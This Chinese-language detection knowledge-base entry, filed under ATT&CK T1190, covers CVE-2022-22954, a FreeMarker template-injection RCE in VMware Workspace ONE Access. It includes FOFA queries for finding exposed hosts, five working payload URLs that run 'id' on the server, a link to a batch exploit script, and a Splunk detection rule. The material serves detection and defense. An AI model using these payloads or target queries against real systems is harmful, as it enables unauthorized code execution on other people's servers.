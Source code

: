 # T1190-CVE-2022-22954-VMware Workspace ONE Access SSTI远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

VMware Workspace ONE Access and Identity Manager包含一个由于服务器端模板注入而导致的远程代码执行漏洞。VMware已将此问题的严重性评估为处于严重严重性范围内 ，CVSSv3基本得分最高为9.8。

具有网络访问权限的恶意行为者可以触发可能导致远程代码执行的服务器端模板注入。

### 受影响版本

```yml
VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）
VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）
VMware Realize Automation （版本号：7.6）
```

### EXP/POC

请勿用做非法用途，仅用于检测测试。

fofa语法：

```yml
icon_hash="-1250474341"
app="vmware-Workspace-ONE-Access" || app="vmware-Identity-Manager"
```

```yml
/catalog-portal/ui?code=&deviceUdid=&deviceType=%24%7B"freemarker.template.utility.Execute"%3Fnew%28%29%28"id"%29%7D
/catalog-portal/hub-ui?deviceType=&deviceUdid=%24%7B"freemarker.template.utility.Execute"%3Fnew%28%29%28"id"%29%7D
/catalog-portal/hub-ui/byob?deviceType=&deviceUdid=%24%7B"freemarker.template.utility.Execute"%3Fnew%28%29%28"id"%29%7D
/catalog-portal/ui/oauth/verify?error=&deviceType=&deviceUdid=%24%7B"freemarker.template.utility.Execute"%3Fnew%28%29%28"id"%29%7D
/catalog-portal/ui/oauth/verify?code=&deviceType=&deviceUdid=%24%7B"freemarker.template.utility.Execute"%3Fnew%28%29%28"id"%29%7D
```

URL decode

```yml
/catalog-portal/ui?code=&deviceUdid=&deviceType=${"freemarker.template.utility.Execute"?new()("id")}
/catalog-portal/hub-ui?deviceType=&deviceUdid=${"freemarker.template.utility.Execute"?new()("id")}
/catalog-portal/hub-ui/byob?deviceType=&deviceUdid=${"freemarker.template.utility.Execute"?new()("id")}
/catalog-portal/ui/oauth/verify?error=&deviceType=&deviceUdid=${"freemarker.template.utility.Execute"?new()("id")}
/catalog-portal/ui/oauth/verify?code=&deviceType=&deviceUdid=${"freemarker.template.utility.Execute"?new()("id")}
```

[批量脚本传送门](https://github.com/bewhale/CVE-2022-22954)

## 检测日志

HTTP.log

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

[Splunk公开规则](https://github.com/splunk/security_content/blob/develop/detections/web/vmware_server_side_template_injection_hunt.yml)

```sql
| tstats count from datamodel=Web where Web.http_method IN ("GET")
  Web.url="*deviceudid=*" AND Web.url IN ("*java.lang.ProcessBuilder*","*freemarker.template.utility.ObjectConstructor*")
  by Web.http_user_agent Web.http_method, Web.url,Web.url_length Web.src, Web.dest sourcetype
  | `drop_dm_object_name("Web")` 
  | `security_content_ctime(firstTime)`
  | `security_content_ctime(lastTime)` 
  | `vmware_server_side_template_injection_hunt_filter
```

结合状态码及返回内容包进行分析研判。以下可作为参考：

```yml
返回状态为200，且包涵Authorization context is not valid
```

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

vmware_server_side_template_injection_hunt

<https://github.com/splunk/security_content/blob/develop/detections/web/vmware_server_side_template_injection_hunt.yml>

利用脚本

<https://github.com/bewhale/CVE-2022-22954>

CVE-2022-22954 VMware Workspace ONE Access SSTI RCE

<https://xz.aliyun.com/t/11196>

zeek-CVE-2022-22954

<https://github.com/corelight/cve-2022-22954>
